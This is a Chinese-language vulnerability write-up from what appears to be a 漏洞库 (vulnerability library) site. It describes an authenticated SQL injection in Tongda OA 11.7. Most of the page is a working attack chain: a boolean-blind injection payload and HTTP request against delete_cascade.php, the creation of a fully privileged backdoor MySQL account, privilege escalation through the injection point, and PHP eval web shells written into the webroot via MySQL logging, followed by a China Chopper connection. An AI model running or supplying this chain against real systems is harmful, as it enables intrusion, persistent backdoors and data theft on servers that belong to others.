 ```yaml
---
title: '通达OA 11.7存在sql注入'
date: Sat, 19 Sep 2020 12:52:37 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞影响版本

通达oa 11.7 利用条件:需要账号登录

#### POC

1、下载通达OA 11.7，https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe 

2、condition\_cascade参数存在布尔盲注  

3.经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))，判断注入点 #当字符相等时，不报错，错误时报错 

4、通过添加用户at666，密码为abcABC@123  

5、使用Navicat Premium连接数据库 

6、添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限 [提权](https://www.bylibrary.cn/wp-content/uploads/2020/09/提权.txt) 

7、然后用注入点刷新权限，因为该用户是没有刷新权限的权限的
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges; 

8、再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.\* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION 

9、然后写shell 

10、菜刀连接





=========================================================================

**通达OA 11.7 后台sql注入漏洞复现**

**一、****漏洞描述**

 通达OA 11.7存在sql注入

**二、漏洞影响版本**

 通达oa 11.7

利用条件:需要账号登录 

**三、漏洞复现**

1、下载通达OA 11.7，https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe，点击安装

2、condition_cascade参数存在布尔盲注

POC：

[![复制代码](通达OA 11.7存在sql注入/copycode.gif)](javascript:void(0);)

```
GET /general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(9999,99)) HTTP/1.1
Host: 192.168.77.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://192.168.77.137/general/index.php?isIE=0&modify_pwd=0
Cookie: PHPSESSID=ebpjtm5tqh5tvida5keba73fr0; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c71fa06d
DNT: 1
Connection: close
```

[![复制代码](通达OA 11.7存在sql注入/copycode.gif)](javascript:void(0);)

3、经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))，判断注入点  #当字符相等时，不报错，错误时报错

![img](通达OA 11.7存在sql注入/1592114-20200918131448196-369801189.png)

![img](通达OA 11.7存在sql注入/1592114-20200918131457270-1072697018.png)

4、通过添加用户at666，密码为abcABC@123

grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![img](通达OA 11.7存在sql注入/1592114-20200918140833664-1709732465.png)

5、使用Navicat Premium连接数据库

![img](通达OA 11.7存在sql注入/1592114-20200918140944759-1969707413.png)

6、添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限

UPDATE `mysql`.`user` SET `Password` =  '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y',  `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y',  `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y',  `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y',  `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y',  `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y',  `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y',  `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '',  `max_questions` = 0, `max_updates` = 0, `max_connections` = 0,  `max_user_connections` = 0, `plugin` = 'mysql_native_password',  `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` =  Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));

![img](通达OA 11.7存在sql注入/1592114-20200918145139982-1847080322.png)

7、然后用注入点刷新权限，因为该用户是没有刷新权限的权限的

general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;

![img](通达OA 11.7存在sql注入/1592114-20200918145242794-1741869790.png)

8、再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

![img](通达OA 11.7存在sql注入/1592114-20200918145636404-104307491.png)

![img](通达OA 11.7存在sql注入/1592114-20200918145658609-861750253.png)

9、然后写shell

方法一:

select @@basedir;

set global slow_query_log=on;

set global slow_query_log_file='C:/tongda11.7/webroot/test.php';

select '<?php eval($_POST[x]);?>' or sleep(11);

方法二:

select @@basedir;

set global general_log = on;

set global general_log_file ='C:/tongda11.7/webroot/test2.php';

select '<?php eval($_POST[test2]);?>';

show variables like '%general%';

![img](通达OA 11.7存在sql注入/1592114-20200918150409778-1231690665.png)

![img](通达OA 11.7存在sql注入/1592114-20200918151144656-338989695.png)

10、菜刀连接

![img](通达OA 11.7存在sql注入/1592114-20200918150531898-678705329.png)

 

 
